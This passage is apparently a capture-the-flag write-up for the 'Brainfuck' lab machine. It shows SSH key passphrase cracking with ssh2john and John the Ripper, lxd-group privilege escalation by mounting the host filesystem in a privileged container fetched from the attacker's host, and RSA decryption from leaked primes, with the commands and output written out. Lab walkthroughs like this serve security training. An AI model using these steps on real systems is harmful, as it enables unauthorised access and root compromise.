

we get `BrainfuCkmybrainfuckmybrainfu` which means the key is `fuckmybrain`   
we can use this key to decode the message with the URL



we got the URL for the SSH private key --> `https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa`

# JohnTheRipper
## ssh2john
The SSH private key is encrypted so we can use `JohnTheRipper` to crack the password   
to convert the SSH key into a format that John can understand we will use `ssh2john.py`   

```console
root@kali:~# locate ssh2john
/usr/share/john/ssh2john.py
root@kali:~# /usr/share/john/ssh2john.py id_rsa > orestis.hash
root@kali:~# john orestis.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia!       (id_rsa)
Warning: Only 1 candidate left, minimum 8 needed for performance.
1g 0:00:01:14 DONE (2020-07-06 11:29) 0.01334g/s 191350p/s 191350c/s 191350C/s *7¡Vamos!
Session completed
```

we got the password for the SSH key --> `3poulakia!`

## SSH as orestis
```console
root@kali:~# ssh -i id_rsa orestis@10.10.10.17
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-75-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


You have mail.
Last login: Wed May  3 19:46:00 2017 from 10.10.11.4
orestis@brainfuck:~$ ls
debug.txt  encrypt.sage  mail  output.txt  user.txt
orestis@brainfuck:~$ cat user.txt 
2c11cfbc5b959f73ac15a3310bd097c9
```

# PrivEsc
## lxd (unintended method)
```console
orestis@brainfuck:~$ groups
orestis adm cdrom dip plugdev lxd lpadmin sambashare
```

orestis is a member of `lxd` group, we can follow this article for privilege escalation   
> [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

clone the repository `https://github.com/saghul/lxd-alpine-builder` and build the image using `./build-alpine`
```console
root@kali:~# git clone https://github.com/saghul/lxd-alpine-builder
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Receiving objects: 100% (27/27), 16.00 KiB | 381.00 KiB/s, done.
Resolving deltas: 100% (6/6), done.
root@kali:~# cd lxd-alpine-builder/
root@kali:~/lxd-alpine-builder# sudo ./build-alpine 
Determining the latest release... v3.12
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64
Downloading alpine-mirrors-3.5.10-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading alpine-keys-2.2-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading apk-tools-static-2.10.5-r1.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
alpine-devel@lists.alpinelinux.org-4a6a0840.rsa.pub: OK
Verified OK
Selecting mirror http://nl.alpinelinux.org/alpine/v3.12/main
fetch http://nl.alpinelinux.org/alpine/v3.12/main/x86_64/APKINDEX.tar.gz
(1/19) Installing musl (1.1.24-r9)
(2/19) Installing busybox (1.31.1-r19)
Executing busybox-1.31.1-r19.post-install
(3/19) Installing alpine-baselayout (3.2.0-r7)
Executing alpine-baselayout-3.2.0-r7.pre-install
Executing alpine-baselayout-3.2.0-r7.post-install
(4/19) Installing openrc (0.42.1-r10)
Executing openrc-0.42.1-r10.post-install
(5/19) Installing alpine-conf (3.9.0-r1)
(6/19) Installing libcrypto1.1 (1.1.1g-r0)
(7/19) Installing libssl1.1 (1.1.1g-r0)
(8/19) Installing ca-certificates-bundle (20191127-r4)
(9/19) Installing libtls-standalone (2.9.1-r1)
(10/19) Installing ssl_client (1.31.1-r19)
(11/19) Installing zlib (1.2.11-r3)
(12/19) Installing apk-tools (2.10.5-r1)
(13/19) Installing busybox-suid (1.31.1-r19)
(14/19) Installing busybox-initscripts (3.2-r2)
Executing busybox-initscripts-3.2-r2.post-install
(15/19) Installing scanelf (1.2.6-r0)
(16/19) Installing musl-utils (1.1.24-r9)
(17/19) Installing libc-utils (0.7.2-r3)
(18/19) Installing alpine-keys (2.2-r0)
(19/19) Installing alpine-base (3.12.0-r0)
Executing busybox-1.31.1-r19.trigger
OK: 8 MiB in 19 packages
```

now wget the `.tar.gz` file to the machine and mount the entire filesystem in the container
```console
orestis@brainfuck:~$ wget 10.10.14.2/alpine-v3.12-x86_64-20200705_1802.tar.gz
--2020-07-07 06:00:05--  http://10.10.14.2/alpine-v3.12-x86_64-20200705_1802.tar.gz
Connecting to 10.10.14.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3211449 (3.1M) [application/gzip]
Saving to: ‘alpine-v3.12-x86_64-20200705_1802.tar.gz’

alpine-v3.12-x86_64-20200705_1802.tar.gz             100%[=====================================================================================================================>]   3.06M   780KB/s    in 4.0s    

2020-07-07 06:00:09 (780 KB/s) - ‘alpine-v3.12-x86_64-20200705_1802.tar.gz’ saved [3211449/3211449]

orestis@brainfuck:~$ lxc image import ./alpine-v3.12-x86_64-20200705_1802.tar.gz --alias myimage
Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: 813f5dc9994d4a521997d8acea9a9cf9d11cd4d165ccfecd6a3e949324f9eb9d
orestis@brainfuck:~$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | 813f5dc9994d | no     | alpine v3.12 (20200705_18:02) | x86_64 | 3.06MB | Jul 7, 2020 at 3:00am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
orestis@brainfuck:~$ lxc init myimage ignite -c security.privileged=true
Creating ignite
orestis@brainfuck:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
orestis@brainfuck:~$ lxc start ignite
orestis@brainfuck:~$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt
6efc1a5dbb8904751ce6566a305bb8ef
```

Note that although we got root.txt and we have the entire filesystem mounted inside the container in which we have root shell but we still don't have root shell on the machine   
but that doesn't matter because even with the intended method we just get the root.txt and don't get root shell

## RSA
There are 3 interesting file in the home directory of orestis   
`encrypt.sage` is a python script that encrypts the content of `root.txt` using RSA, put the encrypted content in `output.txt` and put p, q and e RSA variables in `debug.txt`
```python
nbits = 1024

password = open("/root/root.txt").read().strip()
enc_pass = open("output.txt","w")
debug = open("debug.txt","w")
m = Integer(int(password.encode('hex'),16))

p = random_prime(2^floor(nbits/2)-1, lbound=2^floor(nbits/2-1), proof=False)
q = random_prime(2^floor(nbits/2)-1, lbound=2^floor(nbits/2-1), proof=False)
n = p*q
phi = (p-1)*(q-1)
e = ZZ.random_element(phi)
while gcd(e, phi) != 1:
    e = ZZ.random_element(phi)


c = pow(m, e, n)
enc_pass.write('Encrypted Password: '+str(c)+'\n')
debug.write(str(p)+'\n')
debug.write(str(q)+'\n')
debug.write(str(e)+'\n')
```

```console
orestis@brainfuck:~$ cat output.txt 
Encrypted Password: 44641914821074071930297814589851746700593470770417111804648920018396305246956127337150936081144106405284134845851392541080862652386840869768622438038690803472550278042463029816028777378141217023336710545449512973950591755053735796799773369044083673911035030605581144977552865771395578778515514288930832915182

orestis@brainfuck:~$ cat debug.txt 
7493025776465062819629921475535241674460826792785520881387158343265274170009282504884941039852933109163193651830303308312565580445669284847225535166520307
7020854527787566735458858381555452648322845008266612906844847937070333480373963284146649074252278753696897245898433245929775591091774274652021374143174079
30802007917952508422792869021689193927485016332713622527025219105154254472344627284947779726280995431947454292782426313255523137610532323813714483639434257536830062768286377920010841850346837238015571464755074669373110411870331706974573498912126641409821855678581804467608824177508976254759319210955977053997
```

we have the value of p, q and e so we can easily decrypt the encrypted flag   
we can find many scripts and online tools that can do this for us, we will use this   
> [https://www.cryptool.org/en/cto-highlights/rsa-step-by-step](https://www.cryptool.org/en/cto-highlights/rsa-step-by-step)



we got the decimal value of plainText content of root.txt, to get the flag we can convert it to hex and decode the hex to get ascii string
```console
root@kali:~# python
Python 2.7.16+ (default, Jul  8 2019, 09:45:29) 
[GCC 8.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> pt = 24604052029401386049980296953784287079059245867880966944246662849341507003750
>>> hex(pt)
'0x3665666331613564626238393034373531636536353636613330356262386566L'
>>> hex(pt)[2:-1].decode('hex')
'6efc1a5dbb8904751ce6566a305bb8ef'
```


